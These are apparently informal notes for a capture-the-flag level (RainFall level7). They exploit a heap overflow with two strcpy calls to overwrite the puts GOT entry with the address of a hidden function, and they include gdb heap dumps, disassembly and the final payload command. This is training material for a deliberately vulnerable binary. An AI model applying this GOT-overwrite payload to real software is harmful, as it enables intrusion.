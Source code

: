 Heap exploit


TLDR

```
    malloc1 = malloc(8) // 0x0804a008
    malloc1[0] = 1
    malloc1[1] = malloc(8) // 0x0804a018

    malloc2 = malloc(8) // 0x0804a028
    malloc2[0] = 2
    malloc2[1] = malloc(8) // 0x0804a038

    strcpy(mOne[1], argv[1])
    strcpy(mTwo[1], argv[2])
    
    
    movl $0x1, (%eax)
    The instruction moves the value 0x1 into the memory location pointed to by the %eax.
    (%eax) ==> memory reference.
    
    0x08048531 <+16>:	call   0x80483f0 <malloc@plt>
    0x08048536 <+21>:	mov    %eax,0x1c(%esp)
    0x0804853a <+25>:	mov    0x1c(%esp),%eax
    0x0804853e <+29>:	movl   $0x1,(%eax)         malloc1[0] = 1
    
    0x08048544 <+35>:	movl   $0x8,(%esp)
    0x0804854b <+42>:	call   0x80483f0 <malloc@plt>
    0x08048550 <+47>:	mov    %eax,%edx
    0x08048552 <+49>:	mov    0x1c(%esp),%eax
    0x08048556 <+53>:	mov    %edx,0x4(%eax)       *malloc1 + 4 = malloc1[1] = edx = allcated
    
    after last strcpy
    
    b *main+161
    
    
```



```
0x080484f4  m
0x08048521  main
```

./level7 $(python -c 'print "A" * 21 + "\x08\x04\x84\xf4"[::-1]') "BBBBBBBB"

```
(gdb) x 0x8049960
0x8049960 <c>:	 ""
  
(gdb) p 0x44
$6 = 68
  
(gdb) x 0x8048703
0x8048703:	 "~~"
```
  
```
(gdb) run "AAAABBBBCCCCDDDD" "ZZZZ1111"

(gdb) x/60wx 0x804a000
  
0x804a000:	0x00000000	0x00000011	0x00000001	0x0804a018
0x804a010:	0x00000000	0x00000011	0x41414141	0x42424242
0x804a020:	0x43434343	0x44444444	0x00000000	0x0804a038
0x804a030:	0x00000000	0x00000011	0x5a5a5a5a	0x31313131

(gdb) p/c 0x5a = 'Z'
 
 argv1 write at the heap pointed by p/x 0x804a010+8 = 0x804a018
 argv2                              0x804a038

confirmed by ltrace

level7@RainFall:~$ ltrace ./level7 AAAAAAAA BBBBBBBB

  strcpy(0x0804a018, "AAAAAAAA")
  strcpy(0x0804a038, "BBBBBBBB")

 ```
  
  ```
   0x080485f7 <+214>:	call   0x8048400 <puts@plt>
  
  (gdb) disass 0x8048400
    Dump of assembler code for function puts@plt:
   0x08048400 <+0>:	jmp    *0x8049928
  ```
  
  address of puts `0x8049928` and address of m() function `0x080484f4`
  
  
  `./level7 $(python -c 'print "A" * 20 + "\x08\x04\x99\x28"[::-1]') $(python -c 'print "\x08\x04\x84\xf4"[::-1]')`
  
 Heap befor srcpy 1 
```
"--------------HEAP------------"
0x804a000:	0x00000000	0x00000011	0x00000001	0x0804a018
0x804a010:	0x00000000	0x00000011	0x00000000	0x00000000
0x804a020:	0x00000000	0x00000011	0x00000002	0x0804a038 
```
  Heap after srcpy 1
  ```
  "--------------HEAP------------"
0x804a000:	0x00000000	0x00000011	0x00000001	0x0804a018
0x804a010:	0x00000000	0x00000011	0x41414141	0x41414141
0x804a020:	0x41414141	0x41414141	0x41414141	0x08049928
```
after strcpy2
```
(gdb) disass 0x8048400
puts@plt:
   0x08048400 <+0>:	jmp    *0x8049928
   
(gdb) x 0x8049928
0x8049928 <puts@got.plt>:	0x080484f4

(gdb) x 0x080484f4
0x80484f4 <m>:	0x83e58955
```



```
"-------HEAP-------"
0x804a000:	0x00000000	0x00000011	0x00000001	0x0804a018
0x804a010:	0x00000000	0x00000011	0x41414141	0x00000000
0x804a020:	0x00000000	0x00000011	0x00000002	0x0804a038
0x804a030:	0x00000000	0x00000011	0x42424242	0x00000000
```
  strcpy(0x0804a018, "AAAA")
  strcpy(0x0804a038, "BBBB")
  
  cpy whatever is in av1 into 018
  cpy whatever is in av2 into 038
  
  what we need is smthing like:
  
    strcpy(addr_of_puts, addr_of_m)
  
  address of puts `0x8049928` and address of m() `0x080484f4`
  
  so we need to slide addr of puts to overide the aadr malloced for arv2
  
```
  "-------HEAP-------"
0x804a000:	0x00000000	0x00000011	0x00000001	[av1_dest]
0x804a010:	0x00000000	0x00000011	[   av1  ]	0x00000000
0x804a020:	0x00000000	0x00000011	0x00000002	[av2_dest]
0x804a030:	0x00000000	0x00000011	[   av2  ]	0x00000000
```
we want to achieve smthg like
```
0x804a000:	0x00000000	0x00000011	0x00000001	[av1_dest]
0x804a010:	0x00000000	0x00000011	[   av1  ]	0x00000000
0x804a020:	0x00000000	0x00000011	0x00000002	[  puts  ]
0x804a030:	0x00000000	0x00000011	[     m  ]	0x00000000
```
to reach `puts` frm `av1` we need  `4*5 = 20`

payload:

  `( python -c 'print A*20 + puts' ) ( python -c 'print m' )`
  
  `./level7 $(python -c 'print "A" * 20 + "\x08\x04\x99\x28"[::-1]') $(python -c 'print "\x08\x04\x84\xf4"[::-1]')`
  
  ```
  "-------HEAP-------"
0x804a000:	0x00000000	0x00000011	0x00000001	0x0804a018
0x804a010:	0x00000000	0x00000011	0x41414141	0x41414141
0x804a020:	0x41414141	0x41414141	0x41414141	0x08049928
0x804a030:	0x00000000	0x00000011	0x00000000	0x00000000
0x804a040:	0x00000000	0x00020fc1	0xfbad240c	0x00000000
```
  
  similar concept
  liveoverflow https://youtu.be/TfJrU95q1J4?list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN
